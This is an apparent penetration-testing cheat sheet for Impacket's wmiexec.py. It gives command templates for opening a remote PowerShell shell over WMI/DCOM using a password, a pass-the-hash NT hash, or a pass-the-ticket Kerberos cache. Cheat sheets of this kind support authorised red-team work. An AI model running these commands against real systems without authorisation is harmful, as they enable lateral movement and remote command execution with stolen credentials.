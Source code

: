 # wmiexec (imp)

% windows, impacket-exec

## wmiexec (creds)
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -shell-type powershell '<domain>/<user>:<password>'@<ip>
```

## pth (pth) 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -shell-type powershell -hashes <nt_hash> <user>@<ip>
```

## wmiexec (ptt)
```
export KRB5CCNAME=<ccache>; wmiexec.py -shell-type powershell -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <target_name>
```